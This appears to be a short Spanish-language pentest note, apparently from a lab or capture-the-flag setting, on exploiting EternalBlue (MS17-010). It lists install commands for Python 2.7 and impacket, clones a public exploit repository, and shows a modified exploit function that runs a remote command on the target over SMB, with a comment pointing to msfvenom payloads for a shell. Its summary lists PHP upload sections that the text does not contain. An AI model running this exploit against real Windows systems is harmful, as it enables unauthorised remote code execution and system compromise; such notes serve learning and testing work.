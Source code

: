 # EternalBlue

> para explotar el eternalblue necesito hacerlo con python2.7, y usa herramientas de impacket.

## Summary

* [Php](#php)
	* [Subida de archivo](#subida-de-archivos)
	* [Content Type](#content-type)
	* [Magic Number](#magic-number)

## Install python2.7

sudo apt-get install python2.7

## install pip2.7

wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
sudo python2.7 get-pip.py

- pip2.7 install impacket 
	+ esta opción nos pone problemas
- pip2.7 install impacket==0.9.22
	+ esta es la solución

## clonar el repositorio

git clone https://github.com/worawit/MS17-010.git

y listo podemos ejecutar el binario

python2.7 checker.py

y modificamos el script `zzz_exploit.py`

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    
    #print('creating file c:\\pwned.txt on the target')
    #tid2 = smbConn.connectTree('C$')
    #fid2 = smbConn.createFile(tid2, '/pwned.txt')
    #smbConn.closeFile(tid2, fid2)
    #smbConn.disconnectTree(tid2)
    
    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    service_exec(conn, r'cmd /c ping 10.10.14.2')
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."

```
